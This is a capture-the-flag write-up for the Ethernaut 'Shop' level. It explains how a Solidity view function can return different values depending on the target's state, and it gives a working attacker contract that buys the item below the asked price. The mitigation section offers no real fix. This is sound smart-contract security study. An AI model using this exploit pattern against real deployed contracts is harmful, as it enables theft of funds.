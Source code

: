 ```yaml
---
title: Level 21 - Shop
slug: level-21
published: 05-21-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut21.svg
---
```


## Objectives

1. Obtain an item for less than the asked price.

## Vulnerabilities

### Interface functions

Interface functions that have the `view` modifier can still be used to return different values based on another a contract's state. Indeed,
view functions can still read state and therefore can use that fact to have conditionnals.

## Exploit

1. Write and deploy a hack contract like this one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Shop.sol";

contract ShopHack is Buyer {
    Shop target;

    constructor(address _targetAddress){
        target = Shop(_targetAddress);
    }

    function price() external view returns(uint){
        return target.isSold() ? 1 : 102;
    }

    function Hazaah() external {
        target.buy();
    }
}
```

2. Call the `Hazaah`function to buy the item at a lower price than asked.

## Suggested mitigation

1. Not sure without changing more.

## Further reading

- View functions <ExternalLink href={"https://docs.soliditylang.org/en/develop/contracts.html#view-functions"} />
